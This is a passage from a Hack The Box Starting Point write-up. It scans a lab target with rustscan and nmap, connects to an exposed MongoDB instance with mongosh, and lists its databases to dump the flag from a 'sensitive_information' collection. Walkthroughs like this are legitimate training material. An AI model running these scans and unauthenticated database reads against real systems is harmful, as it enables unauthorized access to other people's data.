 3. Run rustscan

   ```
   rustscan -a <Target_IP>
   ```

   > Reference https://hack543.com/rustscan-intro/

4. Port 22, 27017 are opened, we can do `nmap -p 22,27017 -sCV IP` to further check the version and **run with script** of these two ports

   ![](../assets/img/htb-starting-point/69.png)

   ![](../assets/img/htb-starting-point/70.png)

   By running `nmap -sC` , we can know the database name of the mongodb

5. Connect to mongodb

   ```bash
   mongosh --host target_IP --port 27017
   ```

6. Type `help` to understand what command can be used

   ```
   help
   show dbs
   use sensitive_information
   show collections
   db.flag.find().pretty()
   ```
